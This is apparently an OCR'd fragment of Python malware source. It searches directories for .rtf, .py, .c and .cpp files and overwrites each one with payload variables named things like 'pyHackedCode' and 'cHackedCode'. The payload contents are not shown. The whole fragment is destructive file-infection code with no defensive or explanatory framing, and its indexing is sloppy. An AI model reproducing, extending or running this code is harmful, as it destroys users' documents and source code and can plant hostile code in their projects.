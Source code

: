 def findRTF():
    filesInsideDir = listOfAvailDirs[j][3][1]
    dirNameOfDir = listOfAvailDirs[j][1][1]
    filteredRTF = fnmatch.filter(filesInsideDir, '*.rtf')
    if len(filteredRTF) > 0:
        for k in range(len(filteredRTF)):
            pathsToRTF.append(dirNameOfDir + "\\" + filteredRTF[k - 1])
        populateRTF()
def populateRTF():
    for l in range(len(pathsToRTF)):
        RTFFile = open(pathsToRTF[l - 1], "wb")
        RTFFile.write(rtfHackedCode)
        RTFFile.close()

# More Computer Based Languages

def findPY():
    filesInsideDir = listOfAvailDirs[j][3][1]
    dirNameOfDir = listOfAvailDirs[j][1][1]
    filteredPY = fnmatch.filter(filesInsideDir, '*.py')
    if len(filteredPY) > 0:
        for k in range(len(filteredPY)):
            pathsToPY.append(dirNameOfDir + "\\" + filteredPY[k - 1])
        populatePY()
def populatePY():
    for l in range(len(pathsToPY)):
        PYFile = open(pathsToPY[l - 1], "w")
        PYFile.write(pyHackedCode)
        PYFile.close()

def findC():
    filesInsideDir = listOfAvailDirs[j][3][1]
    dirNameOfDir = listOfAvailDirs[j][1][1]
    filteredC = fnmatch.filter(filesInsideDir, '*.c')
    if len(filteredC) > 0:
        for k in range(len(filteredC)):
            pathsToC.append(dirNameOfDir + "\\" + filteredC[k - 1])
        populateC()
def populateC():
    for l in range(len(pathsToC)):
        CFile = open(pathsToC[l - 1], "w")
        CFile.write(cHackedCode)
        CFile.close()

def findCPP():
    filesInsideDir = listOfAvailDirs[j][3][1]
    dirNameOfDir = listOfAvailDirs[j][1][1]
    filteredCPP = fnmatch.filter(filesInsideDir, '*.cpp')
    if len(filteredCPP) > 0:
        for k in range(len(filteredCPP)):
            pathsToCPP.append(dirNameOfDir + "\\" + filteredCPP[k - 1])
        populateCPP()
def populateCPP():
    for l in range(len(pathsToCPP)):
        CPPFile = open(pathsToCPP[l - 1], "w")
        CPPFile.write(cppHackedCode)
        CPPFile.close()
